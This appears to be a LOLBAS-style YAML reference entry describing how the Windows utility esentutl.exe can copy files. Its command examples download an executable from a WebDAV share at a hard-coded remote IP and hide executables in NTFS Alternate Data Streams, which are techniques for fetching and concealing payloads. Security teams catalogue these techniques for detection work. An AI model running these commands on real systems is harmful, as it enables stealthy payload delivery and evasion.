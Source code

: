 ```yaml
---
Name: Esentutl.exe
Description: Copy, Download, Write ADS, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: esentutl.exe /y C:\\folder\\sourcefile.vbs /d C:\\folder\\destfile.vbs /o
    Description: 'Copies the source VBS file to the destination VBS file.'
  - Command: esentutl.exe /y C:\\ADS\\file.exe /d c:\\ADS\\file.txt:file.exe /o
    Description: 'Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.'
  - Command: esentutl.exe /y C:\\ADS\\file.txt:file.exe /d c:\\ADS\\file.exe /o
    Description: 'Copies the source Alternate Data Stream (ADS) to the destination EXE.'
  - Command: esentutl.exe /y \\\\82.221.113.85\\webdav\\file.exe /d c:\\ADS\\file.txt:file.exe /o
    Description: 'Copies the source EXE to the destination Alternate Data Stream (ADS) of the destination file.'
  - Command: esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o
    Description: 'Copies the source EXE to the destination EXE file.'
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: 'Copies the source EXE to the destination EXE file'
Full Path:
  - c:\windows\system32\esentutl.exe
  - c:\windows\sysWOW64\esentutl.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to egre55 - @egre55
---
```

